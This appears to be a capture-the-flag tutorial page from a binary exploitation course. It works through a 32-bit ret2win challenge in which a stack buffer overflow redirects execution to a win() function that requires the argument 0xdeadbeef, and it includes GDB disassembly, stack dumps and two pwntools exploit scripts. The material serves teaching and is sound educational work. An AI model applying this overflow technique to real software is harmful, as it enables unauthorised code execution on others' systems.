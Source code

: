 ```yaml
---
description: Solving another ret2win, with a twist.
---
```


# args

{% file src="../../.gitbook/assets/args.zip" %}

Now that we've spent some time going over binaries in extreme detail, I am going to omit some of the initial details of the disassembly and focus more on the newer concepts. This binary is strikingly similar to the ret2win.

### Checking Security

```nasm
$ checksec args
[*] '/home/joybuzzer/Documents/vunrotc/public/01-ret2win/args/src/args'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

All the security features are still disabled.

### Disassembly

Checking the functions list:

{% tabs %}
{% tab title="GDB" %}
```nasm
gef➤  info functions
All defined functions:

Non-debugging symbols:
0x08049000  _init
0x08049040  __libc_start_main@plt
0x08049050  fflush@plt
0x08049060  gets@plt
0x08049070  puts@plt
0x08049080  system@plt
0x08049090  _start
0x080490d0  _dl_relocate_static_pie
0x080490e0  __x86.get_pc_thunk.bx
0x080490f0  deregister_tm_clones
0x08049130  register_tm_clones
0x08049170  __do_global_dtors_aux
0x080491a0  frame_dummy
0x080491a6  win
0x080491ef  read_in
0x0804923c  main
0x08049254  __x86.get_pc_thunk.ax
0x08049258  _fini
```
{% endtab %}

{% tab title="Radare2" %}

{% endtab %}
{% endtabs %}

If we check `read_in()` and `main()`, we'll see that the two methods are identical. Let's check `win()`.

{% tabs %}
{% tab title="GDB" %}
```nasm
gef➤  disas win
Dump of assembler code for function win:
   0x080491a6 <+0>:	push   ebp
   0x080491a7 <+1>:	mov    ebp,esp
   0x080491a9 <+3>:	push   ebx
   0x080491aa <+4>:	sub    esp,0x4
   0x080491ad <+7>:	call   0x8049254 <__x86.get_pc_thunk.ax>
   0x080491b2 <+12>:	add    eax,0x2e4e
   0x080491b7 <+17>:	cmp    DWORD PTR [ebp+0x8],0xdeadbeef
   0x080491be <+24>:	je     0x80491d6 <win+48>
   0x080491c0 <+26>:	sub    esp,0xc
   0x080491c3 <+29>:	lea    edx,[eax-0x1ff8]
   0x080491c9 <+35>:	push   edx
   0x080491ca <+36>:	mov    ebx,eax
   0x080491cc <+38>:	call   0x8049070 <puts@plt>
   0x080491d1 <+43>:	add    esp,0x10
   0x080491d4 <+46>:	jmp    0x80491ea <win+68>
   0x080491d6 <+48>:	sub    esp,0xc
   0x080491d9 <+51>:	lea    edx,[eax-0x1fee]
   0x080491df <+57>:	push   edx
   0x080491e0 <+58>:	mov    ebx,eax
   0x080491e2 <+60>:	call   0x8049080 <system@plt>
   0x080491e7 <+65>:	add    esp,0x10
   0x080491ea <+68>:	mov    ebx,DWORD PTR [ebp-0x4]
   0x080491ed <+71>:	leave  
   0x080491ee <+72>:	ret   
```
{% endtab %}

{% tab title="Radare2" %}

{% endtab %}
{% endtabs %}

The most glaring part of this function is the call to `cmp`, a comparison function. `cmp` is used in assembly to manage `if` statements.

* The first instruction is `cmp`, which takes in the two values to compare. This returns a value of `0` if the two values are equal, `1` if the first value is greater than the second, and `-1` if the first value is less than the second.
* The next instruction is a "_jump if_" instruction. These are used in tandem with `cmp` to decide where we go. In this case, the program decides to _jump if equal_ (`je`). `je` takes an address: where in the function you want to jump to.

Let's check out the two routes:

* If the first value (`DWORD PTR [rbp+0x8]`) is equal to `0xdeadbeef`, then we move to `win+48`. If we follow `win+48`, we see that this reaches `system`.
* If `DWORD PTR [rbp+0x8]` is not equal, it will continue instructions. However, there is a `jmp` call, which is going to jump to `win+68`, which skips the `system` call.

_What is `DWORD PTR [rbp+0x8]`?_ Let's think about it in terms of the stack. The stack frame is going to be located at `rbp`. After `rbp` is going to be the _return pointer_, as we saw in our stack frame from earlier:

```
   |-- rsp
   v
[... | ... buffer for function ... | base pointer | return pointer | ... ]
```

That means that at `rbp+0x8` holds the last thing pushed to the stack _before the `win()` function was called_. **This is the (first) parameter that's passed to the function.** Subsequent items on the stack would serve as the following parameters.

This tells us that we need to pass the parameter `0xdeadbeef` to the `win()` function. Since this is 32-bit, let's just pass it right after the return pointer!

```python
from pwn import *

proc = process('./args')

cmp = 0xdeadbeef
f_win = 0x080491a6

payload = b'A' * 0x34
payload += p32(f_win)
payload += p32(cmp)

proc.sendline(payload)
proc.interactive()
```

We pass `cmp` through `p32()` for two reasons: (1) we need it to be little-endian, and (2) we need it to be the entire parameter size.

Running this yields doesn't work!

```nasm
[+] Starting local process './args': pid 5882
[*] Switching to interactive mode
Good luck winning here!
You lose!
[*] Got EOF while reading in interactive
$ 
[*] Interrupted
[*] Process './args' stopped with exit code -11 (SIGSEGV) (pid 5882)
```

What went wrong? If we do some digging, we'll find that _You lose!_ gets printed whenever we don't match the correct argument:

```nasm
──── arguments (guessed) ────
puts@plt (
   [sp + 0x0] = 0x0804a008 → "You lose!"
)
```

(_If you're struggling to find this for yourself, attach a gdb instance to your exploit and then step through it until you reach the `puts` call._)

What is happening? Checking the stack frame at the time of the `cmp` call shows us:

{% tabs %}
{% tab title="GDB" %}
```nasm
gef➤  x/20wx $esp
0xffdcb134:	0x41414141	0x41414141	0x41414141	0xdeadbeef
0xffdcb144:	0x00000000	0xf7fba020	0xf7c21519	0x00000001
0xffdcb154:	0xffdcb204	0xffdcb20c	0xffdcb170	0xf7e2a000
0xffdcb164:	0x0804923c	0x00000001	0xffdcb204	0xf7e2a000
0xffdcb174:	0xffdcb204	0xf7fb9b80	0xf7fba020	0xa1d90556
gef➤  x/wx $ebp+0x8
0xffdcb144:	0x00000000
```
{% endtab %}

{% tab title="Radare2" %}

{% endtab %}
{% endtabs %}

We're off by one chunk? _Why is that?_ Since we're jumping to `win()` by changing the value of the return pointer, rather than going there via `call win`, a return pointer is never pushed on the stack. However, since the code doesn't expect us to do this, it treats the stack as if there still is one.

{% hint style="warning" %}
_In our code, `0xdeadbeef` is actually serving as the return pointer for `win()`. If you continue execution, you'll notice you end up at this address:_

```nasm
[#0] Id 1, Name: "args", stopped 0xdeadbeef in ?? (), reason: SIGSEGV
```
{% endhint %}

This is an easy fix. All we need to do is allocate space for a return pointer in our payload. Since it doesn't matter to us what it is, because we'll have already gotten our data by the time it's ever reached, we can just use `0x0`:

{% code title="exploit.py" lineNumbers="true" %}
```python
from pwn import *

proc = process('./args')

cmp = 0xdeadbeef
f_win = 0x080491a6

payload = b'A' * 0x34
payload += p32(f_win)
payload += p32(0x0)
payload += p32(cmp)

proc.sendline(payload)
proc.interactive()
```
{% endcode %}

(_You could use something like `main` ensuring that the program doesn't crash, but it's unnecessary._)

Running this works!

```nasm
[+] Starting local process './args': pid 6081
[*] Switching to interactive mode
Good luck winning here!
cat: flag.txt: No such file or directory
[*] Got EOF while reading in interactive
$ 
[*] Process './args' stopped with exit code -11 (SIGSEGV) (pid 6081)
[*] Got EOF while sending in interactive
```

Running this on the remote server will get your flag!
